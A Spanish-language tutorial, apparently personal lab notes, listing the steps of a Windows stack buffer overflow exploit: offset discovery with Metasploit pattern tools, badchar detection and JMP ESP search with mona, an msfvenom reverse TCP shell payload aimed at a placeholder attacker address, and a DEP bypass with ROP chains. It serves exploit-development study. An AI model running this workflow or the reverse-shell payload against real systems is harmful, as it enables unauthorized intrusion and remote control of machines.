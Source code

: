 tags: 

---
Pasos para realizar un ataque de buffer overflow a un binario:

- Cargamos el programa a immunity debuger
- Creamos con python un fuzzer como **proof of content** (POC)
- Usar pattern create para averiguar el offset exacto donde desborda el programa
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <lengt desbordado>
 ```
- Introducimos la cadena que nos retorna como buffer a enviar en nuestro script python
- En inmunity debguger copiamos la dirección del EIP al desbordar con este nuevo buffer y eso lo pegamos en el siguiente comando para que nos retorne el offset de desbordamiento
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <direccion del EIP>
```
- Ahora que tenemos el offset exacto de donde desborda el programa y empieza a escribir en el EIP podemos modificar el buffer para poner una dirección de salto
```python
buffer = "A" * offset + "B" * 4
```
Esto debería de retornar 42424242 en el EIP si se hizo de manera correcta
- Deberemos detectar ahora los badchars como \x00, para eso desde el immunity debuger crearemos una carpeta con mona en el directorio que especifiquemos
```
!mona config -set workingfolder C:/Users/Admin/Desktop/%p
!mona bytearray
```
Pegamos el resultado de bytearray a continuacion del buffer que generamos para sobreescribir el EIP y con eso veremos que caracteres nos retorna como badchars. En este punto deberemos de enviar el buffer varias veces hasta detectar todos los badchars y nuestra cadena salga completa.
(ESP follow in dump) y ahi comprobamos hasta que salga la cadena correcta
- Generamos el payload con msfvenom
```bash
msfvenom -p windows/shell/reverse_tcp LHOST=<ip-atacante> LPORT=<puerto-atacante> EXITFUNC=thread -b "\x00" -f c
```
Este shellcode lo ponemos a continuación de EIP
- Ahora toca encontrar un punto de salto valido del ESP y lo haremos usando mona con el siguiente comando e introduciendo los badchars encontrados 
```
!mona jmp -r esp -cpb "\x00"
```
este comando nos retornara la dirección que deberemos de poner en el EIP para que la siguiente instrucción no lleve a un jum ESP y podamos ejecutar nuestro payload.


EVASION DEP

Si encontramos protección por parte del sistema DEP podemos saltarnos la protección con cadenas ROP. Para ello deberemos de ejecutar el siguiente comando mona
```immunity debuger
!mona rop -m * -cpb '\x00'
```

Del código que nos retorna este comando en la carpeta que previamente definimos en los pasos anteriores deberemos de copiar el que corresponda con el lenguaje de programación que estamos usando, en este caso python. Copiamos el codigo en nuestro exploit sustituyendo el codigi que va en el EIP e importar la sibreria struct

al terminar añadiremos al final del payload un paddin talque 
```
padding = "F" * (3000 - offset - len(variableNops) - len(payload))
```